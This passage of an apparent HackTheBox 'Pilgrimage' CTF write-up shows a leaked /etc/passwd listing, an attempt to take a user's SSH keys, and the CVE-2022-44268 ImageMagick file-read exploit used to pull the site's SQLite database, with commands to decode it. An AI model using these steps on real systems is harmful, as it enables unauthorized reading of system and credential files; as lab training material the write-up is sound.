     nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
    _apt:x:100:65534::/nonexistent:/usr/sbin/nologin
    systemd-network:x:101:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
    systemd-resolve:x:102:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
    messagebus:x:103:109::/nonexistent:/usr/sbin/nologin
    systemd-timesync:x:104:110:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
    emily:x:1000:1000:emily,,,:/home/emily:/bin/bash
    systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
    sshd:x:105:65534::/run/sshd:/usr/sbin/nologin
    _laurel:x:998:998::/var/log/laurel:/bin/false



I'll try to grab SSH keys for emily, but fail. There's no other user
where it seems reasonable that they might have a `.ssh` directory based
on their home directories.

#### Database

The source code shows that the site is running off a SQLite database.
For example, in `login.php`:



      $db = new PDO('sqlite:/var/db/pilgrimage');
      $stmt = $db->prepare("SELECT * FROM users WHERE username = ? and password = ?");
      $stmt->execute(array($username,$password));



I'll try to grab that file:



    oxdf@hacky$ python CVE-2022-44268.py --image poc.png --file-to-read /var/db/pilgrimage --output pngout.png
    oxdf@hacky$ python CVE-2022-44268.py --url http://pilgrimage.htb/shrunk/655cdbb27cce4.png
    Traceback (most recent call last):
      File "/media/sf_CTFs/hackthebox/pilgrimage-10.10.11.219/CVE-2022-44268/CVE-2022-44268.py", line 48, in <module>
        main()
      File "/media/sf_CTFs/hackthebox/pilgrimage-10.10.11.219/CVE-2022-44268/CVE-2022-44268.py", line 17, in main
        decrypted_profile_type = bytes.fromhex(raw_profile_type_stipped).decode('utf-8')
                                 ^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^
    UnicodeDecodeError: 'utf-8' codec can't decode byte 0xaf in position 27: invalid start byte



That makes sense, as it's binary data and the script seems to be
expecting only ASCII text.

I could manually get the data out of the file. I'll download the file
from the site, and with a little playing around with `grep`, I can
isolate just the lines with the hex data, and then use `xxd` to convert
it back to binary:



    oxdf@hacky$ identify -verbose 655cdbb27cce4.png | grep -Pv "^( |Image)"  | xxd -r -p > pilgrimage.sqlite
    oxdf@hacky$ file pilgrimage.sqlite
    pilgrimage.sqlite: SQLite 3.x database, last written using SQLite version 3034001, file counter 943, database pages 5, cookie 0x4, schema 4, UTF-8, version-valid-for 943
